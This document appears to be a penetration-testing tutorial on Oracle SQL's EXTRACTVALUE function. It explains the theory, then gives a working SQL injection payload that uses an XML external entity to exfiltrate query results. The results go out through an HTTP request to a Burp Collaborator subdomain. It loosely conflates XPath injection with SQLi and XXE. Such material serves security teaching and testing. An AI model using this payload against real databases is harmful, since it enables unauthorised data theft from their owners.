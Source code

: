 ```yaml
---
title: 'EXTRACTVALUE in Oracle SQL: Exploiting XPath Injection'
description: Learn how to exploit Oracle SQL EXTRACTVALUE for data extraction via
  XPath injection. Understand theory and practice steps.
keywords:
- Oracle SQL
- EXTRACTVALUE
- XPath Injection
- XXE Attack
- Data Exfiltration
- Oracle vulnerabilities
- SQL injection
---
```


# EXTRACTVALUE

## Context

The purpose of this article is to teach how to exploit Oracle SQL's EXTRACTVALUE function for out-of-band data extraction via XPath injection. This technique is useful for information disclosure attacks when dealing with vulnerable Oracle applications. Users should have a foundational understanding of XML structure, XPath queries, HTTP requests, and Oracle SQL injection (SQLi).

## Theory

### EXTRACTVALUE Function in Oracle SQL

The `EXTRACTVALUE` function is used in Oracle SQL to retrieve XML data from a column of the `XMLType` data type using XPath expressions. This function is particularly powerful in extracting specific data points from XML documents stored within Oracle databases. By specifying precise XPath expressions, attackers can manipulate database responses to retrieve unintended data.

### XPath Injection in Oracle SQL

XPath injection is a type of injection vulnerability that occurs when an application uses untrusted data to construct XPath queries for XML data retrieval. In the context of Oracle SQL, this vulnerability can be exploited by injecting crafted XPath queries through the `EXTRACTVALUE` function to execute arbitrary commands or extract sensitive data which the application does not normally expose.

#### Vulnerability Model

XPath injection vulnerabilities arise when database queries incorporate user-controlled data without proper sanitization or validation. This enables attackers to alter or access unauthorized data by injecting malicious XPath expressions.

#### Attack Sequence

To exploit this vulnerability, attackers submit specially crafted payloads that manipulate XML data retrieval processes. These payloads typically include unexpected or additional XPath expressions designed to bypass the original query logic and expose hidden or sensitive information.

### XML External Entity (XXE) Attack

An XML External Entity (XXE) attack leverages the ability of XML parsers to process external entities. By crafting XML payloads that define external entities, attackers can exploit this functionality to access or exfiltrate data from the target system.

#### Attack Sequence

The attack involves injecting external entity definitions into XML data structures, which are then processed by the victim's XML parser. This processing can lead to sensitive data being sent to an external server controlled by the attacker, facilitating out-of-band data retrieval (OOB).

## Practice

### EXTRACTVALUE XPath Injection

This practice involves manual execution of crafted XPath payloads using the `EXTRACTVALUE` function to achieve data exfiltration through an XXE attack.

- **Command**:
  ```sql
  SELECT EXTRACTVALUE(
      xmltype(
          '<?xml version="1.0" encoding="UTF-8"?>
           <!DOCTYPE root [
             <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/">
             %remote;
           ]>'),
      '/l'
  ) FROM dual;
  ```

  This command injects an external entity to trigger an out-of-band request. The payload specifies a remote entity that causes the Oracle server to make an HTTP request to a specified URL, typically a Burp Collaborator domain.

- **Explanation**:
  - By executing the above SQL, the Oracle server attempts to resolve the external entity defined within the XML doctype declaration. This leads to an HTTP request being made to the attacker's external server.

- **Monitoring**:
  - After executing the command, monitor the out-of-band channel using tools like Burp Collaborator for signs of data exfiltration. This involves checking for incoming connections from the Oracle server which indicate that the injected payload was successful.

#### Expected Outcome

Execution of the above technique results in sensitive data being extracted through an out-of-band channel. Once the Oracle server processes the external entity, observers can detect HTTP requests to the specified URL, confirming that the XXE attack was successful.

## Tools

- **Burp Suite**: Essential for monitoring and intercepting HTTP requests, particularly when verifying the effectiveness of XXE payloads.
- **Oracle SQL Developer**: Useful for interfacing with Oracle databases, running queries, and inspecting data results.
